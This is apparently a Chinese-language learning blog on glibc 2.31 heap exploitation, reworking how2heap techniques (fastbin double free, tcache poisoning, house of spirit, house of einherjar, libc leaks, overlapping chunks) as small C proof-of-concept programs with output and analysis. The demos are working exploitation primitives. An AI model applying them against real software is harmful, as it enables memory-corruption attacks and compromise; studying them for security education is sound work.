

在掌握漏洞利用原理的基础上，自己写一写、改一改。


# Other

## first-fit

主要是展示Linux内存管理分配的方法，采用的是**first-fit**，最先找到满足要求的空闲块就分配

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(){
	
	char* a = malloc(0x512);
	printf("chunk A @ %p\n",a);
	char* b = malloc(0x256);
	char *c;
	free(a);
	c = malloc(0x500);
	printf("chunk C @ %p\n",c);
	return 0;
}
/*
➜  My-how2heap gcc -g first_fit.c -o first_fit   
➜  My-how2heap ./first_fit 
chunk A @ 0x55a4eac4e2a0
chunk C @ 0x55a4eac4e2a0
*/
```


# glibc-2.31


## fastbin_dup

复现how2heap的demo感觉奇奇怪怪的

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

signed main(){
	
	/*
	The fastbin double free under libc-2.31

	*/

	// fill up tcache
	char *tcache[15];
	for(int i=0;i<8;i++){
		tcache[i] = malloc(8);
	}
	for(int i=0;i<7;i++){
		free(tcache[i]);
	}
	char *a = calloc(1, 8); // 必须用calloc。。。
	char *b = calloc(1, 8);
	char *c = calloc(1, 8);

	
	// fastbin
	free(a);
	free(b);
	free(a);
	// a->b->a
	a = calloc(1, 8);
	b = calloc(1, 8);
	char *c1 = calloc(1, 8);

	printf("chunk A1 @ %p\n",a);
	printf("chunk C1 @ %p\n",c1);
	assert(a==c1);
	return 0;
}

```


他这里必须用calloc分配。。。malloc就会报错。。。

我觉得不如stach的new fastbin double free

然后自己写了个这种double free的伪造fd。

不得不说，自己用C写还是够呛，好多指针转换不熟悉。

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

signed main(){
	
	/*
	The fastbin double free under libc-2.31

	*/

	// fill up tcache
	char *tcache[15];
	for(int i=0;i<7;i++){
		tcache[i] = malloc(0x40);
	}
	for(int i=0;i<7;i++){
		free(tcache[i]);
	}
	char *a = calloc(1, 0x40);
	char *b = calloc(1, 0x40);
	char *c = calloc(1, 0x40);

	
	// fastbin
	free(a);
	free(b);
	free(a);
	// a->b->a
	a = calloc(1, 0x40);
	long long *a_ptr = (long long*)a;
	a_ptr[0] = c-0x10;
	b = calloc(1, 0x40);
	char *a1 = calloc(1, 0x40);
	char *c1 = calloc(1, 0x40);
	printf("chunk C @ %p\n",c);
	printf("chunk C1 @ %p\n",c1);
	assert(c==c1);
	return 0;
}

```


## fastbin_dup_consolidate

how2heap写的蛮细的，把原demo先搬到这

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

/*
Original reference: https://valsamaras.medium.com/the-toddlers-introduction-to-heap-exploitation-fastbin-dup-consolidate-part-4-2-ce6d68136aa8

This document is mostly used to demonstrate malloc_consolidate and how it can be leveraged with a
double free to gain two pointers to the same large-sized chunk, which is usually difficult to do 
directly due to the previnuse check. Interestingly this also includes tcache-sized chunks of certain sizes.

malloc_consolidate(https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4714) essentially
merges all fastbin chunks with their neighbors, puts them in the unsorted bin and merges them with top
if possible.

As of glibc version 2.35 it is called only in the following five places:
1. _int_malloc: A large sized chunk is being allocated (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L3965)
2. _int_malloc: No bins were found for a chunk and top is too small (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4394)
3. _int_free: If the chunk size is >= FASTBIN_CONSOLIDATION_THRESHOLD (65536) (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4674)
4. mtrim: Always (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L5041)
5. __libc_mallopt: Always (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L5463)

We will be targeting the first place, so we will need to allocate a chunk that does not belong in the 
small bin (since we are trying to get into the 'else' branch of this check: https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L3901). 
This means our chunk will need to be of size >= 0x400 (it is thus large-sized). Interestingly, the 
biggest tcache sized chunk is 0x410, so if our chunk is in the [0x400, 0x410] range we can utilize 
a double free to gain control of a tcache sized chunk.   

*/

int main() {
	printf("This technique will make use of malloc_consolidate and a double free to gain a UAF / duplication in the tcache.\n");
	printf("It would also allow us to perform tcache poisoning.\n\n");

	printf("Lets fill up the tcache to force fastbin usage...\n\n");

	void *ptr[7];

	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);
	for(int i = 0; i < 7; i++)
		free(ptr[i]);

	// void* ppoison = malloc(0x400);
	// ^ We would have to allocate this to be able to do tcache poison later, since we need at least 2 chunks in a bin to do it.

	void* p1 = calloc(1,0x40);
	// Using calloc here doesn't take from the tcache since calloc calls _int_malloc (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L3679) 
	// and taking from the tcache is handled in __libc_malloc. If we used malloc(0x40) the chunk would get taken from the tcache.

	printf("Allocate another chunk of the same size p1=%p \n", p1);
  	printf("Freeing p1 will add it to the fastbin.\n\n");
  	free(p1);

  	void* p3 = malloc(0x400);

	// free(ppoison);
	// We can now free this chunk to put it in the tcache bin for the poison.

	printf("To trigger malloc_consolidate we need to allocate a chunk with large chunk size (>= 0x400)\n");
	printf("which corresponds to request size >= 0x3f0. We will request 0x400 bytes, which will gives us\n");
	printf("a tcache-sized chunk with chunk size 0x410. p3=%p\n", p3);

	printf("\nmalloc_consolidate will merge the fast chunk p1 with top.\n");
	printf("p3 is allocated from top since there is no bin bigger than it. Thus, p1 = p3.\n");

	assert(p1 == p3);

  	printf("We will double free p1, which now points to the 0x410 chunk we just allocated (p3).\n\n");
	free(p1); // vulnerability

	printf("So p1 is double freed, and p3 hasn't been freed although it now points to a free chunk.\n");
	printf("We have thus achieved UAF on tcache!\n");

	// *(long long*)p3 = target;
	// We can use the UAF here to perform tcache poison.

	printf("We will request a chunk of size 0x400, this will give us the 0x410 chunk thats currently in\n");
	printf("the tcache bin. p3 and p1 will still be pointing to it.\n");
	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("We now have two pointers (p3 and p4) that haven't been directly freed\n");
	printf("and both point to the same tcache sized chunk. p3=%p p4=%p\n", p3, p4);
	printf("We have achieved duplication!\n\n");

	printf("Note: This duplication would have also worked with a larger chunk size, the chunks would\n");
	printf("have behaved the same, just being taken from the top instead of from the tcache bin.");

	return 0;
}
```


但是，这是在glibc-2.31下的啊。。。为什么给我扯2.35。。。

---


**简化版**:

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
	void *ptr[7];
	// fill up tcache
	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);
	for(int i = 0; i < 7; i++)
		free(ptr[i]);

	
	void* p1 = calloc(1,0x40); // use calloc to prevent 'gain from tcache'

  	free(p1); // into fastbin

  	void* p3 = malloc(0x400); // largebin size to trigger fastbin consolidate

	assert(p1 == p3);

	free(p1); // double free p1

	void *p4 = malloc(0x400);

	assert(p4 == p3);
	// p3 && p4 all point to the same chunk

	return 0;
}
```


**分析下这个利用**

关键点在于留下了一个p1的fastbin，然后malloc一个**>0x3F0**的堆块触发p1和topchunk的合并

```
-----------
topchunk


...
-----------
fastbinchunk
----------- <----*p1


-----------
topchunk


----------- <-----*p1


-----------


-----------
topchunk
...
-----------

0x410

----------- <----*p3 *p1
```

然后再free(p1)，此时是以0x410的total size free的p1，而p3的指针仍然有效，

再malloc(0x400)，就又能得到p4=p3。


具体当然得再细看libc的源码。我记得好像是申请largebin大小的如果在tcache、unsortedbin没找着，就会触发fastbin的合并。

然后还要calloc,malloc，`__int_malloc`和 `__libc_malloc`的源码后面也得看。


## fastbin_dup_into_stack

跟前面的fastbin_dup流程差不多，重点在于**fastbin申请时有size字段的检测，需要在栈上伪造fake chunk**。

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

signed main(){
	long long stack_var = 0xcafebabe;
	printf("stack_var @ %p\n",&stack_var);
	printf("stack_var's value : %p\n",stack_var);
	/*
	The fastbin double free under libc-2.31

	*/

	// fill up tcache
	char *tcache[15];
	for(int i=0;i<7;i++){
		tcache[i] = malloc(0x40);
	}
	for(int i=0;i<7;i++){
		free(tcache[i]);
	}
	char *a = calloc(1, 0x40);
	char *b = calloc(1, 0x40);
	char *c = calloc(1, 0x40);

	
	// fastbin
	free(a);
	free(b);
	free(a);
	// a->b->a
	a = calloc(1, 0x40);
	long long *a_ptr = (long long*)a;
	a_ptr[0] = &stack_var-2;
	long long *p_stack = (long long*)&stack_var;
	p_stack[-1] = 0x51;
	b = calloc(1, 0x40);
	char *a1 = calloc(1, 0x40);
	char *c1 = calloc(1, 0x40);
	printf("c1: %p\n",c1);
	long long* p_c1 = (long long*)c1;
	p_c1[0] = 0xdeadbeef;
	printf("now : %p\n",stack_var);
	return 0;
}
/*
➜  glibc-2.31 ./fastbin_dup_into_stack                                 
stack_var @ 0x7ffdf03c21a8
stack_var's value : 0xcafebabe
c1: 0x7ffdf03c21a8
now : 0xdeadbeef
*/
```


## fastbin_reverse_into_tcache

还是贴一份how2heap的。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
  setbuf(stdout, NULL);

  printf(
    "\n"
    "This attack is intended to have a similar effect to the unsorted_bin_attack,\n"
    "except it works with a small allocation size (allocsize <= 0x78).\n"
    "The goal is to set things up so that a call to malloc(allocsize) will write\n"
    "a large unsigned value to the stack.\n\n"
  );

  // Allocate 14 times so that we can free later.
  char* ptrs[14];
  size_t i;
  for (i = 0; i < 14; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "First we need to free(allocsize) at least 7 times to fill the tcache.\n"
    "(More than 7 times works fine too.)\n\n"
  );

  // Fill the tcache.
  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }

  char* victim = ptrs[7];
  printf(
    "The next pointer that we free is the chunk that we're going to corrupt: %p\n"
    "It doesn't matter if we corrupt it now or later. Because the tcache is\n"
    "already full, it will go in the fastbin.\n\n",
    victim
  );
  free(victim);

  printf(
    "Next we need to free between 1 and 6 more pointers. These will also go\n"
    "in the fastbin. If the stack address that we want to overwrite is not zero\n"
    "then we need to free exactly 6 more pointers, otherwise the attack will\n"
    "cause a segmentation fault. But if the value on the stack is zero then\n"
    "a single free is sufficient.\n\n"
  );

  // Fill the fastbin.
  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }

  // Create an array on the stack and initialize it with garbage.
  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));

  printf(
    "The stack address that we intend to target: %p\n"
    "It's current value is %p\n",
    &stack_var[2],
    (char*)stack_var[2]
  );

  printf(
    "Now we use a vulnerability such as a buffer overflow or a use-after-free\n"
    "to overwrite the next pointer at address %p\n\n",
    victim
  );

  //------------VULNERABILITY-----------

  // Overwrite linked list pointer in victim.
  *(size_t**)victim = &stack_var[0];

  //------------------------------------

  printf(
    "The next step is to malloc(allocsize) 7 times to empty the tcache.\n\n"
  );

  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "Let's just print the contents of our array on the stack now,\n"
    "to show that it hasn't been modified yet.\n\n"
  );

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  printf(
    "\n"
    "The next allocation triggers the stack to be overwritten. The tcache\n"
    "is empty, but the fastbin isn't, so the next allocation comes from the\n"
    "fastbin. Also, 7 chunks from the fastbin are used to refill the tcache.\n"
    "Those 7 chunks are copied in reverse order into the tcache, so the stack\n"
    "address that we are targeting ends up being the first chunk in the tcache.\n"
    "It contains a pointer to the next chunk in the list, which is why a heap\n"
    "pointer is written to the stack.\n"
    "\n"
    "Earlier we said that the attack will also work if we free fewer than 6\n"
    "extra pointers to the fastbin, but only if the value on the stack is zero.\n"
    "That's because the value on the stack is treated as a next pointer in the\n"
    "linked list and it will trigger a crash if it isn't a valid pointer or null.\n"
    "\n"
    "The contents of our array on the stack now look like this:\n\n"
  );

  malloc(allocsize);

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  char *q = malloc(allocsize);
  printf(
    "\n"
    "Finally, if we malloc one more time then we get the stack address back: %p\n",
    q
  );

  assert(q == (char *)&stack_var[2]);

  return 0;
}
```

**利用分析**：

其实就是利用了stash机制，清空tcache后，malloc时会先将fastbin所有的bin都放入tcache(顺序倒着)，那么我们UAF修改了fastbin[6]的fd，所以申请两次就能拿到目标地址了。


调试的时候发现一个点：在fastbin进入tcache后fd处的值会+0x10？（确实，因为就算不是伪造的，tcache链的next也需要指向下一个bin的**userdata**，所以肯定是都要+0x10的）

reverse into 前：


触发前都是d0：


reverse into 后：


所以exploit的时候要注意一下。

**简化版：**

```c
#include<stdio.h>
#include<stdlib.h>
#include<malloc.h>
#include<assert.h>

int main(){
	char *p_tcache[20];
	int target = 0x6666666;
	printf("target_addr is @ %p\n",&target);
	// fill the tcache
	for(int i=0;i<14;i++){
		p_tcache[i] = malloc(0x40);
	}
	for(int i=0;i<7;i++){
		free(p_tcache[i]);
	}
	char *victim = p_tcache[7];
	free(victim); // fastbin
	// UAF
	long long *p_v = (long long*)victim;
	p_v[0] = (long long*)&target-2; // watch out!
	
	for(int i=8;i<14;i++){
		free(p_tcache[i]);
	}
	// total 7 into fastbin

	// empty tcache
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x40);
	}
	
	// trigger fastbin reverse into tcache
	char *trigger = malloc(0x40);
	char *q = malloc(0x40);
	printf("we have chunk @ %p\n",q);
	return 0;
}
/*
➜  glibc-2.31 ./fastbin_reverse_into_tcache                                      
target_addr is @ 0x7ffffee0637c
we have chunk @ 0x7ffffee0637c
*/
```


## new fastbin double_free

how2heap没有列，但是这是个重要的点。

利用tcache的stash机制，将fastbin的double free迁移到tcache的double free，
利用tcache的申请无size段检查的宽松特性结合UAF来申请任意地址。

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#include<malloc.h>
#include<assert.h>

int main(){
	char *p_tcache[20];
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x40);
	}
	char *p1 = malloc(0x40);
	char *p2 = malloc(0x40);
	char *p3 = malloc(0x40);
	for(int i=0;i<7;i++){
		free(p_tcache[i]);
	}
	// Double Free in fastbin
	free(p1);
	free(p2);
	free(p1);
	// fastbin: p1->p2->p1
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x40);
	}
	/*
	fastbins
	0x50: 0x5555555594c0 —▸ 0x555555559510 ◂— 0x5555555594c0
	*/
	char *trigger = malloc(0x40);
	/*
	tcachebins
	0x50 [  3]: 0x555555559520 —▸ 0x5555555594d0 ◂— 0x555555559520
	*/
	
	long long *p_t = (long long*)trigger;
	long long target = 0x6666666;
	printf("target address is @ %p\n",&target);
	p_t[0] = &target; // edit "fd" (next)
	// p1->target
	char *p = malloc(0x40);
	char *q = malloc(0x40);
	char *r = malloc(0x40);
	printf("chunk r @ %p, where the target is!\n",r);
}
/*
➜  glibc-2.31 ./new_fastbin_double_free                                  
target address is @ 0x7fffdc8f6a18
chunk r @ 0x7fffdc8f6a18, where the target is!
*/
```


## house_of_spirit

how2heap demo的运行结果：


这些伪造的要求都是从fastbin的free源码要求来的。


**My Demo**:

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	char *p_tcache[20];
	// fill tcache
	for(int i=0;i<7;i++)
		p_tcache[i] = malloc(0x30);
	for(int i=0;i<7;i++)
		free(p_tcache[i]);
	
	// prepare fake chunk	
	long fake_chunk[30];
	long *st = &fake_chunk[0];
	printf("The start of fake chunk @ %p\n",st);
	
	fake_chunk[0] = 0; // prev_size
	fake_chunk[1] = 0x40; // size
	fake_chunk[9] = 0x1234; /* next fake_chunk's size
					0x10< 0x1234 <0x21000
					*/
	long *p = &fake_chunk[2]; // chunk1_mem_addr
	printf("fake_chunk1 @ %p\n",p);
	free(p); // fake_chunk1 into fastbin
	
	// add back
	char *q = calloc(1,0x30); // Otherwise use malloc 8 times.
	printf("Our chunk   @ %p\n",q);
	
	return 0;
}
```


## house _of_einherjar


how2heap的详细教程

```
➜  glibc-2.31 ./house_of_einherjar 
Welcome to House of Einherjar 2!
Tested on Ubuntu 20.04 64bit (glibc-2.31).
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.
This file demonstrates a tcache poisoning attack by tricking malloc into
returning a pointer to an arbitrary location (in this case, the stack).

The address we want malloc() to return is 0x7ffca24e0be0.

We allocate 0x38 bytes for 'a' and use it to create a fake chunk

We create a fake chunk preferably before the chunk(s) we want to overlap, and we must know its address.
We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks
Our fake chunk at 0x5624123092a0 looks like:
prev_size (not used): 0
size: 0x60
fwd: 0x5624123092a0
bck: 0x5624123092a0

We allocate 0x28 bytes for 'b'.
This chunk will be used to overflow 'b' with a single null byte into the metadata of 'c'
After this chunk is overlapped, it can be freed and used to launch a tcache poisoning attack.
b: 0x5624123092e0
Since we want to overflow 'b', we need the 'real' size of 'b' after rounding: 0x28

We allocate 0xf8 bytes for 'c'.
c: 0x562412309310

c.size: 0x101
c.size is: (0x100) | prev_inuse = 0x101
We overflow 'b' with a single null byte into the metadata of 'c'
c.size: 0x100
It is easier if b.size is a multiple of 0x100 so you don't change the size of b, only its prev_inuse bit

We write a fake prev_size to the last 8 bytes of 'b' so that it will consolidate with our fake chunk
Our fake prev_size will be 0x562412309300 - 0x5624123092a0 = 0x60

Make sure that our fake chunk's size is equal to c's new prev_size.
Our fake chunk size is now 0x60 (b.size + fake_prev_size)

Fill tcache.
Fill up tcache list.
Now we free 'c' and this will consolidate with our fake chunk since 'c' prev_inuse is not set
Our fake chunk size is now 0x161 (c.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk
Next malloc(0x158) is at 0x5624123092b0
After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,
We have to create and free one more chunk for padding before fd pointer hijacking.

Now we free chunk 'b' to launch a tcache poisoning attack
Now the tcache list has [ 0x5624123092e0 -> 0x562412309b10 ].
We overwrite b's fwd pointer using chunk 'd'
Now we can cash out the target chunk.

The new chunk is at 0x7ffca24e0be0
Got control on target/stack!

```

这里的`After the patch xxx`指的是：


这是一个原先的错误断言，后面就改为我们熟知的**tcache->counts[tc_idx] > 0**的检测了。


**利用分析**：

四个chunk A,B,C,D

```
----------
chunk A   待触发unlink合并
----------
chunk B   off-by-null利用chunk (0x?8)
----------
chunk C   被null覆盖size的prev_inuse位
----------
chunk D   prevent merge
----------
top chunk
```

由于unlink有检测，于是直接将chunk A的fd和bk修改为&chunk A's header

所以利用前提是能泄露**堆地址**

然后伪造chunk C的prev_size为chunk A's header与chunk C's header的offset (构造错位复用堆块B)

再利用off-by-null修改chunk C的size，free(C)，触发unlink合并，

(注意！由于有tcache，我们**要先填满chunk C大小的tcache bin再free(C)**才会触发unlink合并)


再把A+B+C申请回来，指针指向A下的fake_chunk；

free掉B，用A+B+C的堆块修改B的fd，打tcache poisoning，劫持next指针；

申请到任意地址。


**My Demo**：(写了好久。。。)

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#include<assert.h>
#include<malloc.h>

int main(){
	long target = 0x6666666;
	printf("our taget_addr is @ %p\n",&target);
	char *A = malloc(0x20);
	char *B = malloc(0x28);
	char *C = malloc(0x80);
	char *D = malloc(0x10);
	
	long long *p_A = (long long*)A;
	/*
	make a fake chunk
	And
	bypass unlink detect
	*/
	char *fake_chunk = A+0x10;
	printf("fake_chunk's mem is @ %p\n",fake_chunk);
	p_A[0] = 0;
	p_A[1] = 0x50;
	p_A[2] = &p_A[0];
	p_A[3] = &p_A[0];

	// off-by-null
	long long *p_B = (long long*)B;
	p_B[4] = 0x50; // C's prev_size
	p_B[5] = 0x90;// C's size 
	
	
	// fill tcache
	char *p_tcache[20];
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x80); // size equal to chunk C
	}
	for(int i=0;i<7;i++){
		free(p_tcache[i]);
	}
	// free C to unlink and merge
	free(C);
	
	// add back A+B+C
	char *p = malloc(0xd0); // fake_chunk's size now: 0xe1
	printf("now we add back A+B+C, where *p is @ %p\n",p);
	assert(p==fake_chunk);

	/* 
	leverage overlapping
	tcache poisoning	
	*/
	char *pad = malloc(0x28); // count>0
	free(pad);
	free(B);
	// tcache: 0x30 [ 2] : B->pad
	long long *p_p = (long long*)p;
	p_p[0] = 0;p_p[1] = 0;
	p_p[2] = 0;
	p_p[3] = 0x30; // B's size
	p_p[4] = &target; // hijack *next
	// B->target
	char *b = malloc(0x28);
	char *s = malloc(0x28);
	printf("FInally we add back target_addr @ %p!!!\n",s);
	assert(&target==s);
	return 0;
}
/*
➜  glibc-2.31 git:(main) ✗ ./house_of_einherjar                             
our taget_addr is @ 0x7fffe71699a8
fake_chunk's mem is @ 0x5557f99c16c0
now we add back A+B+C, where *p is @ 0x5557f99c16c0
FInally we add back target_addr @ 0x7fffe71699a8!!!
*/
```


## unsafe_unlink


## unsorted_bin cutting leak_libc

自己加的。

在没有UAF的情况下，有off-by-null或者堆溢出的漏洞时，首先都需要泄露libc，

没有UAF就无法放入unsortedbin来show，但是**可以利用unsortedbin的切割**在新分到的堆块上**残留指针**，

从而达到泄露libc的目的。

由于libc-2.31，所以也要对应处理一下tcache。


**My Demo**（以堆溢出的为例）

```c
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
#include<malloc.h>
#include<assert.h>

int main(){
	printf("This demo shows how we can leak libc when we haven't UAF under tcache.\n");
	char *chunk[20];

	// 0x80 > 0x70(fastbin) 
	for(int i=0;i<7;i++)
		chunk[i] = malloc(0x80);
	chunk[7] = malloc(0x80);
	chunk[20] = malloc(0x10); // prevent merge

	// fill up tcache
	for(int i=0;i<7;i++)
		free(chunk[i]);
	free(chunk[7]); // unsorted bin

	// empty tcache bin
	for(int i=0;i<7;i++)
		chunk[8+i] = malloc(0x80);
	
	/*
	now we malloc(0x10) to trigger cutting from unsorted bin
	*/	
	
	/*
	Before we trigger:
	
	...
	
	Allocated chunk | PREV_INUSE
	Addr: 0x5555555595f0
	Size: 0x90 (with flag bits: 0x91)

	Free chunk (unsortedbin) | PREV_INUSE
	Addr: 0x555555559680
	Size: 0x90 (with flag bits: 0x91)
	fd: 0x7ffff7fafbe0
	bk: 0x7ffff7fafbe0

	Allocated chunk
	Addr: 0x555555559710
	Size: 0x20 (with flag bits: 0x20)

	Top chunk | PREV_INUSE
	Addr: 0x555555559730
	Size: 0x208d0 (with flag bits: 0x208d1)

	
	*/

	chunk[15] = malloc(0x10);

	/*
	After we trigger:
	
	...
	Allocated chunk | PREV_INUSE
	Addr: 0x5555555595f0
	Size: 0x90 (with flag bits: 0x91)

	Allocated chunk | PREV_INUSE
	Addr: 0x555555559680
	Size: 0x20 (with flag bits: 0x21)

	Free chunk (unsortedbin) | PREV_INUSE
	Addr: 0x5555555596a0
	Size: 0x70 (with flag bits: 0x71)
	fd: 0x7ffff7fafbe0
	bk: 0x7ffff7fafbe0

	Allocated chunk
	Addr: 0x555555559710
	Size: 0x20 (with flag bits: 0x20)

	Top chunk | PREV_INUSE
	Addr: 0x555555559730
	Size: 0x208d0 (with flag bits: 0x208d1)
		
	*/
	
	/*
	Now we can leak libc
	
	pwndbg> x /4gx 0x555555559680
	0x555555559680:	0x0000000000000000	0x0000000000000021
	0x555555559690:	0x00007ffff7fafc60	0x00007ffff7fafc60
	pwndbg> x /gx 0x00007ffff7fafc60
	0x7ffff7fafc60 <main_arena+224>:	0x00007ffff7fafc50

	*/
	
	long long *ptr = (long long *)chunk[15];
	long long leak = ptr[0];
	printf("Now we get leak is : %p ;\nwhich is actually the address: <main_arena+224>\nSo we can get :\nlibcbase = leak - 224 - 0x10 - libc.sym['__malloc_hook']\n",leak);
	
	return 0;
}
```

```
➜  glibc-2.31 git:(main) ✗ ./unsorted_bin-cutting-leak_libc
This demo shows how we can leak libc when we haven't UAF under tcache.
Now we get leak is : 0x7fbc222a2c60 ;
which is actually the address: <main_arena+224>
So we can get :
libcbase = leak - 224 - 0x10 - libc.sym['__malloc_hook']
```


## overlapping_chunks

glibc-2.31在`_int_malloc`的unsorted_bin部分**增加了检测**


how2heap的教程



```
diff;h=b90ddd08f6dd688e651df9ee89ca3a69ff88cd0c
which ensures the next chunk of an unsortedbin must have prev_inuse bit unset
and the prev_size of it must match the unsortedbin's size
This new poc uses the same primitive as the previous one. Theoretically speaking, they are the same powerful.
```

这里检测的是更为严苛的**size和prev_size**

要求当前申请的unsorted bin的next chunk：

1. size & 1 == 0 (!prev_inuse)
2. prev_size == size


按照how2heap的demo，其实先是把两个堆块一起与topchunk合并了，然后再申请又能拿回原来两块的内存空间。

free前：


free后：


再malloc的时候又是从topchunk切割了。

所以说how2heap这个demo最开始说的有patch后，它的绕过方法就是合并进topchunk。。。

嘛，也不失为一种方法，毕竟对topchunk没有检测。

简化一下how2heap的，

**My Demo**：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

int main(int argc , char* argv[])
{
	setbuf(stdout, NULL);

	long *p1,*p2,*p3,*p4;
	p1 = malloc(0x80 - 8);
	p2 = malloc(0x500 - 8);
	p3 = malloc(0x80 - 8);
	memset(p1, '1', 0x80 - 8);
	memset(p2, '2', 0x500 - 8);
	memset(p3, '3', 0x80 - 8);
	int evil_chunk_size = 0x581;
	int evil_region_size = 0x580 - 8;
	
	// stimulating overflow
	*(p2-1) = evil_chunk_size; // p2's size
	printf("p2 is @ %p\n",p2);
	free(p2); // merge p2+p3 into -> topchunk
	p4 = malloc(evil_region_size);
	printf("p4 is @ %p\n",p4);
	assert(p2==p4);
	return 0;
}
/*
➜  my_how2heap ./overlapping_chunks                             
p2 is @ 0x555644c91320
p4 is @ 0x555644c91320
*/
```

拿到堆块重叠后就可以修改bin中的指针，打poisoning了。
